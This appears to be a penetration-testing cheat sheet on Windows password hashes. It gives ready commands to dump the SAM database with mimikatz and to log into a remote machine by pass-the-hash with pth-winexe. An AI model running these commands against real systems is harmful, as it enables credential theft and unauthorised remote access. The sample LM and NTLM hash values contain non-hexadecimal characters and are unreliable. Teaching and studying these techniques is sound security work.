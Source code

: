 # Password Hashes

> Hashing is the process of converting a given key into another value. A hash function is used to generate the new value according to a mathematical algorithm. A good hash function uses a one-way hashing algorithm, or in other words, the hash cannot be converted back into the original key.

## Identifying Password Hashes

Once we have collected a hash we can try to discover which type of hash is by using the hashid tool:

```bash
hashid $HASH
```

## Windows LM & NTLM

Windows NT up to Windows 2003 store two different password hashes in the SAM, LM and NTLN. LM is very weak and a hash-lookup attack shouldn't be a problem (doesn't include salts). Let's take an example:

**Administrator:500:42f29043y123fa9c74f23606c6g522b0:71759a1bb2web4da43e676d6b7190711:::**

The LM is the hash in the left side and NTLM is the hash on the right side:

**LM:** 42f29043y123fa9c74f23606c6g522b0

**NTML:** 71759a1bb2web4da43e676d6b7190711

From Windows Vista, Windows disables LM by default and uses NTLM, however, NTLM hashes stored in the SAM database are still not salted.

In order to dump the SAM database we can use mimikatz (under administrative command prompt) and execute, in order, the following commands:

```bash
mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```

## Passing The Hash

Once we discovered a Windows HASH we can login into a remote machine using the user and hash we found (if the user exists).

```bash
#-U: user
#%aad3b435b51404eeaad3b435b51404ee: LM part (since hash should be LM:NTLM format).
pth-winexe -U $USER%aad3b435b51404eeaad3b435b51404ee:$NTLMHASH //$IPADDRESS cmd
```
